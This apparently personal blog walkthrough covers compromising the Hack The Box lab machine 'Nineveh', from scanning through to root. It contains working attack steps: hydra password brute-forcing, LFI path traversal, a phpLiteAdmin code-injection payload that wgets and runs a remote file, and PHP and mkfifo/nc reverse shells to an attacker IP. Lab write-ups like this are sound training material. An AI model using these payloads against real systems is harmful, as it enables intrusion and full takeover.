 ```yaml
---
layout: post
title: "Nineveh"
categories: HTB-Walkthrough
---
```


![nineveh](/assets/img/nineveh.png)


Nineveh is an interesting box from HTB, and very much an OSCP-like box.

Nmap first...

`nmap -sV -Pn --min-rate 10000 -sC |tee -a nin.txt`

```

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

```


It seems to be good practice to add found domain names to our /etc/hosts file; it can often reveal
pages that, without it, do not appear. So before we start enumerating the two web ports...

`nano /etc/hosts` , type in the ip address...then press tab, and enter the domain name...like this:

```

10.10.10.43	nineveh.htb

```

You can add more domain names if you find them, to the same line; just have a space between them.

First we'll try port 80...

It looks like we'll need to brute-force directories to move forwards...

```

gobuster dir -u http://10.10.10.43/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh

```

gobuster finds `/department` which is a web login page, and in the source we find two possible usernames: `admin` and `amrois`.

We can use a hydra dictionary attack with these to get valid creds.

make user.txt containing the found names...
trying a few of the usual suspects manually, I work out that the page reveals valid/invalid usernames.
admin is valid
amrois is invalid

so I wont be needing user.txt after all...
I've chosen to use the rockyou.txt password file, 



```

hydra 10.10.10.43 -l admin -P /root/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -V


```

I love it when it works...what a tool!

```

[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-20 00:22:07

```

After logging in we find that this too is under construction, but there is a link to notes.txt

```

Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois


```

Directory Traversal, and LFI is possible with this page, we can easily read /etc/passwd....

```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd
```

So now we just need to find a way to put a file onto the server!


The note hints that we need to find a secret folder? which may relate to a database interface?

Trying /secret fails, but /db comes up trumps with a phpadminlite 1.9 login page.

We just need a password for this, hydra again is the best idea.

We can use 'whatever' as username ...hydra knows this is a dummy id.

```
hydra 10.10.10.43 -l whatever -P /usr/share/wordlists/rockyou.txt https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."

```
Yay!!!

```

[443][http-post-form] host: 10.10.10.43   login: whatever   password: password123

```

Should have probably tried some manually first, since that is one everyone tries...no matter!


<h3>Exploiting phpadminlite 1.9</h3>

`searchsploit phpliteadmin 1.9`

```


-------------------------------------------------- ----------------------------------------
 Exploit Title                                    |  Path
                                                  | (/usr/share/exploitdb/)
-------------------------------------------------- ----------------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection    | exploits/php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities     | exploits/php/webapps/39714.txt
-------------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

Checking out these files we find a method to use.



<h4>Create a database</h4>

create `boo.php` database

create table : newtable  1 field

create field : `somefiled`  `TEXT` 

default value: `<?php system("wget http://10.10.14.19/evil.txt -O /tmp/evil.php;php /tmp/evil.php"); ?>`



make evil.txt file containing a php reverse-shell one-liner.

```
<?php $sock=fsockopen("10.10.14.19",6969);exec("/bin/sh -i <&3 >&3 2>&3");?>
```

start a webserver and nc listener....
`python3 -m http.server 80`


`nc -nlvp 6969`


execute the lfi with....(it takes quite some experimentation to get this from the initial lfi address..)

initial lfi indicator
```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd
```


eventual working exploit lfi...

`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/boo.php`


##################


<h3>Privesc to root...</h3>

There appears to be report folder in amrois home/folder  ran by root via chkrootkit
 it calls `/tmp/update`


research chrootkit local priv esc.....

all we have to do (because it checks for updates..)
...is exploit the fact it looks in /tmp folder for 'update'


... so we make file `/tmp/update` containing nc reverse shell (old nc)

A favourite trick of writing files on targets,that I've picked up, is using cat. 
It's handy when text editors are unavailable or problematic to use...but I've come to use it frequently; 
initially because I wanted to remember it, but I continue to do so because I think its a neat trick.

```

cat >update<<_EOF
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 1337 >/tmp/f
_EOF

```

`chmod +x update` to make it executable.

Send a copy to /tmp `cp update /tmp/`

...set listener to 1337

######################

```

root@kali:~/HTB/retired/nineveh# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.43] 44776
/bin/sh: 0: can't access tty; job control turned off
whoami
root                                                                                                               
id                                                                                                               
uid=0(root) gid=0(root) groups=0(root)                                                                             
cat /root/root.txt                                                                                               
8axxxxxxxxxxxxxxxxxxxxxxxxxxxx3a                                                                                   
ls /home                                                                                                         
amrois                                                                                                             
cat /home/amrois/user.txt                                                                                        
82xxxxxxxxxxxxxxxxxxxxxxxxxxxxc8      

```
:)





